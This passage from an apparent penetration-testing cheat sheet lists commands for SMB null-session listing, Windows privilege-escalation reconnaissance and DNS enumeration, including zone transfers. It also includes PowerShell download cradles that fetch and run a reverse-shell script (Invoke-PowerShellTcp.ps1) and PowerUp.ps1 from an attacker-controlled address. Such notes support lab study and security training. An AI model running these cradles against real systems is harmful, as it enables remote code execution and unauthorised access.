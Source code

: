 # null authentication
smbclient -U '' -N -L //<ip>
{% endhighlight %}

### Powershell
{% highlight powershell %}
# Downloading files
IEX(New-Object Net.Webclient).downloadString('[http://10.10.14.25:1234/Invoke-PowerShellTcp.ps1](http://10.10.14.25:1234/Invoke-PowerShellTcp.ps1)')

# Download file to the remote server within a cmd shell using powershell
echo IEX(New-Object Net.WebClient).downloadString('[http://10.10.14.25:8000/PoweUp.ps1](http://10.10.14.25:8000/PoweUp.ps1)') | powershell -noprofile -
{% endhighlight %}

## Privilege Escalation
{% highlight bash %}
systeminfo
whoami
PowerShell: Get-NetIPConfiguration or Get-NetIPAddress
# Empire has recon scripts
# Sherlock and watson(updated version) scans for kernel exploits
ipconfig
ping
nslookup
route
tracert
netstat
{% endhighlight %}

## DNS

{% highlight bash %}
# learning hostname
nslookup
> server <ip>
> 127.0.0.1
> <ip>

# enumeration
dnsrecon -d <ip> -r 10.0.0.0/8

# zone transfer without domain
dig axfr @<DNS_IP>
# with domain
dig axfr @<DNS_IP> <DOMAIN> 
{% endhighlight %}
